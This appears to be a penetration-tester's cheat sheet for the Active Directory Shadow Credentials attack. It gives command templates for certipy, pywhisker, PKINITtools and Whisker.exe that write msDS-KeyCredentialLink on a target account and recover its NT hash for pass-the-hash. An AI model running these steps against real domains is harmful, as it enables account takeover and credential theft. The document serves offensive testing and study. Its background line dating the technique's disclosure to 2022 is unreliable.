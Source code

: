 With shadow credentials attack you can get the NT hash from a target user. Then use it for pass-the-hash.
Requirements are rights enought to write in msDS-KeyCredentialLink and PKINIT enable in kerberos.
Check bloodhound sudgestions to know if this attack vector is available in your case.

### What, when and who:
The Shadow Credentials attack was discovered and presented in 2022 by Elad Shamir and Michael Grafnetter. They revealed the technique during a security research talk, showcasing how attackers can abuse the msDS-KeyCredentialLink attribute to achieve stealthy persistence in Active Directory environments using certificate-based authentication.

# ABUSING SHADOW CREDENTIALS FROM OUTSIDE (from linux):
____________________________________________________


### SHADOW CREDENTIALS ATTACK (with certipy, RECOMENDED):

 * REQUIREMENTS: Get certipy (or certipy-ad in kali) AND UPDATE IT to the last version -> https://github.com/ly4k/Certipy/wiki/04-%E2%80%90-Installation

 You can do this attack with password or NT Hash wit pass the hash technique:
 
` < kerberos sync clock > ; certipy shadow auto -u <user you control>@<domain> -p <password> -account <target user> `

` < kerberos sync clock > ; certipy shadow auto -u <user you control>@<domain> -hashes :<your user NT hash here> -account <target user> `

<br>

### SHADOW CREDENTIALS ATTACK (old school method, with pywisker):

 * REQUIREMENTS: Get pywhisker, "gettgtpkinit.py" and "getnthash.py" from this repositoris:
   
     https://github.com/ShutdownRepo/pywhisker?tab=readme-ov-file
   
     https://github.com/dirkjanm/PKINITtools/blob/master/gettgtpkinit.py
   
     https://github.com/dirkjanm/PKINITtools/blob/master/getnthash.py



` pywhisker -d "< domain >" -u "< user you control>" -p "< password >" --target "<target user>" --action "add" `

` < kerberos sync clock > ; gettgtpkinit.py -cert-pfx <cert from previous command>.pfx -pfx-pass <pass from previous command> <domain>/<user you control> <target user>.ccache `

` export KRB5CCNAME=<target user>.ccache `

` getnthash.py -key <key obtanined from previous command> <domain>/<target user> `



# ABUSING SHADOW CREDENTIALS FROM INSIDE (windows abuse):
______________________________________________________


### SHADOW CREDENTIALS ATTACK (with whisker.exe):

 Upload Whisker.exe to the target machine and execute:
  ` ./Whisker.exe add /target:<target user> `

 This will gieve you certificate and cert. password, then you can use it outside with gettgtpkinit.py and getnthash.py as above.


 You can also list targeted users:
  ` ./Whisker.exe list /target:<target user> `

 You can also remove targets from msDS-KeyCredentialLink
  ` ./Whisker.exe remove /target:<target user> `


